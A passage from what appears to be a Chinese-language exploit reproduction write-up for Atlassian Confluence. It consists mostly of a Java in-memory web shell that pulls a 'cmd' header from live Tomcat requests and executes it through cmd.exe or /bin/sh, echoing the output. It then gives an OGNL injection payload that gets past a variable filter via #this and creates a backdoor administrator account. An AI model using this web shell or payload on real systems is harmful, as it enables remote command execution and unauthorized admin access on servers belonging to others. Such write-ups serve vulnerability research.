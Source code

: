 ```java
                    field = obj.getClass().getSuperclass().getSuperclass().getDeclaredField("handler");
                    field.setAccessible(true);
                    obj = field.get(obj);

                    field = obj.getClass().getDeclaredField("global");
                    field.setAccessible(true);
                    obj = field.get(obj);

                    field = obj.getClass().getDeclaredField("processors");
                    field.setAccessible(true);
                    java.util.List processors = (java.util.List) (field.get(obj));

                    for (int j = 0; j < processors.size(); ++j) {
                        Object processor = processors.get(j);
                        field = processor.getClass().getDeclaredField("req");
                        field.setAccessible(true);
                        Object req = field.get(processor);
                        Object resp = req.getClass().getMethod("getResponse", new Class[0]).invoke(req);

                        String cmd = (String) req.getClass().getMethod("getHeader", new Class[]{String.class}).invoke(req, new Object[]{"cmd"});

                        if (cmd != null && !cmd.isEmpty()) {
                            resp.getClass().getMethod("setStatus", int.class).invoke(resp, 200);
                            String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};
                            byte[] result = (new java.util.Scanner((new ProcessBuilder(cmds)).start().getInputStream())).useDelimiter("\\A").next().getBytes();

                            Class cls = Class.forName("java.nio.ByteBuffer");
                            obj = cls.getDeclaredMethod("wrap", new Class[]{byte[].class}).invoke(cls, new Object[]{result});
                            resp.getClass().getMethod("doWrite", new Class[]{cls}).invoke(resp, new Object[]{obj});
                        }
                    }
                }
            }catch(Exception e){
            }
        }
    }catch (Exception e){}
    }
}
```
![](https://img-blog.csdnimg.cn/0536b31b6a6d4c23b875a481ee6c1082.png)

可以看到复现成功
### 添加管理员
虽然过滤了`#request` 、 `#context`等变量，但是没有过滤 `#this`
我们可以通过`#this`添加管理员
```java
${#this.getUserAccessor().addUser('test','test123','test@qq.com','Test',@com.atlassian.confluence.util.GeneralUtil@splitCommaDelimitedString("confluence-administrators,confluence-users"))}
```
![](https://img-blog.csdnimg.cn/5425c9178fe4415789022fd3a9d0f854.png)
